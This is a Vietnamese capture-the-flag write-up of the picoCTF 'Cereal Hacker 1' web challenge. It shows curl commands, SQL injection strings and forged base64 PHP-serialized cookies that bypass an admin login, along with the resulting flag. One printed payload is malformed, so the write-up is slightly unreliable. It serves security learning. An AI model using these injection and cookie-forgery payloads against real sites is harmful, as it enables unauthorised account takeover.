 # CEREAL-HACKER-1
### Thể loại: Web Exploitation.
### Thử thách: 
Đăng nhập vào tài khoản admin của trang web sau: https://2019shell1.picoctf.com/problem/32256/
### Gợi ý: không có
### Kiến thức nền:
 - Local file inclusion.
 - SQL injection.
 - HTTP cookie.
 - PHP Object injection.
### Giải quyết vấn đề:
Okay, trước tiên chúng ta hãy test thử trang login này nào.

![pico](https://user-images.githubusercontent.com/61876488/92143782-f2147a00-ee3f-11ea-9b36-ec3c7a89fe46.png)

1/ Kiểm tra lỗ hổng SQL Injection: 
 - Tại mục username, thử nhập "admin" rồi nhập `'OR 1=1; --` tại mục password để test thử -> Invalid Login. 
 - Có khả năng Password đã được filter. Thử nhập ngay tại username là `admin'--` rồi nhập random tại password-> Invalid Login.

2/ Kiểm tra lỗ hổng Local File Inclusion:
URL của trang login này là: https://2019shell1.picoctf.com/problem/32256/index.php?file=login. Hmm, đoạn `index.php?file=login` khiến mình khá là trigger:v Thay "login" bằng "admin" thử xem sao. Bật curl lên múa thôi nào các bạn:))

```html
root@antoine:~# curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>
```

URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin dẫn ta đến một local file của web server như phía dưới:

![image](https://user-images.githubusercontent.com/61876488/92144329-be861f80-ee40-11ea-8a74-d91c3686f32f.png)

Trên page ko có bất cứ mục nào để nhập vào. F12 để check xem cookie thế nào thì cũng không thấy gì đặc biệt. Thôi thì bấm vào "Go back to login" để quay lại cái trang login ban đầu vậy:((

3/ Kiểm tra dữ liệu HTTP POST:

Trong lúc bắt đầu thấy nản vcl thì mình nảy ra ý tưởng: "Có tài khoản admin thì phải có tài khoản guest chứ nhỉ?" Nhập vào username và password đều là "guest" thử xem. Tada!

![image](https://user-images.githubusercontent.com/61876488/92144823-79162200-ee41-11ea-96c3-ceabb8a84f5b.png) 

Khi nhập vào các mục của trang login, mình nhận thấy không có bất kì thay đổi gì đặc biệt trên thanh URL ngoài `file=regular_user` . Vậy nhiều khả năng input được truyền tới server bằng phương thức POST. Bật curl lên và xem dữ liệu HTTP POST được gửi tới server như nào thôi nào:3
Dùng lệnh: 
```console
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=login --data "user=guest&pass=guest" -v 
```
Sau một hồi căng mắt dò từng dòng một trong đống output dài vê lờ thì mình đã tìm thấy một thứ khả nghi:
```console
Set-Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D;
```
Đây chính là [HTTP Cookie](https://viblo.asia/p/ban-da-hieu-ro-ve-http-cookie-djeZ1DvGKWz) trong header của request mà web browser gửi lên cho server.  Cookie user_info này rất có thể được mã hóa base64. Vào 1 trang [Base64 Decoder](https://www.base64decode.org/) để decode thử, ouput là: 

    O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
Output ở phía trên trông khá giống như một [serialized](https://en.wikipedia.org/wiki/Serialization) object trong PHP, và object này thể hiện các thông tin bao gồm username và password. Cùng nhau phân tích output nào:
```
O:11:"permissions": --> object có tên là "permissions",độ dài của string "permissions" là 11 kí tự.
    2: --> số lượng thuộc tính của object "permissions", gồm username và password. 
        {
            s:8:"username"; s:5:"guest"; --> tên của thuộc tính name là một string độ dài 8, giá trị của nó là 1 string độ dài 5.
            s:8:"password"; s:5:"guest"; --> tên của thuộc tính password là một string độ dài 8, giá trị của nó là 1 string độ dài 5.  
        }
```
4/ PHP Object injection:
Object này chứa thông tin để xác thực tài khoản "guest". Vậy nếu chúng ta sửa username thành admin và sử dụng SQL injection để bypass password rồi gói payload này vào 1 [custom HTTP headers](https://www.keycdn.com/support/custom-http-headers)
rồi gửi nó ngược lại cho thằng server thì sao nhỉ? Okay, triển thôi (lưu ý phải thay đổi luôn cả độ dài của string ứng với từng mục nhập vào):

 ```
O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:12:"' OR 1=1; --";}
```
Mã hóa base64 đống payload này. Sau đó gán output sau khi encode vào cookie user_info chúng ta sẽ gửi nó tới server thông qua URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin như sau:
```console 
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin -H "Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTI6IicgT1IgMT0xOyAtLSI7fQ" && echo
```
Hic hic, server trả về đúng trang cũ (You are not admin!). Có khả năng server đã lọc được kí tự comment "--". Tiếp tục thử payload khác nào: 
```
O:11:"permissions":2:O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"Antoine' or password like '%";}
```
Trong đó `or password like '%` có nghĩa là "hoặc trường password của bản ghi có value bắt đầu bằng null". Mà không có string nào là không bắt đầu bằng null cả nên nó đúng với mọi user nằm trong table (chi tiết xem tại [đây](https://www.w3schools.com/sql/sql_like.asp)). Do đó cho dù password có nhập cái vẹo gì đi chăng nữa chúng ta vẫn login đc vào tài khoản admin. Lặp lại các bước như phía trên ta thu được:

```html
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

</html>

```
Hai cái payload này chỉ là một số hàng chục payload mà mình đã thử:v Vì bài viết có hạn nên chỉ xin giới thiệu từng này:))) Các bạn có thể tham khảo các câu lệnh SQL để inject vào mục tiêu thông qua các cheat sheet nha:3

Anyway, this is the endgame!!!!
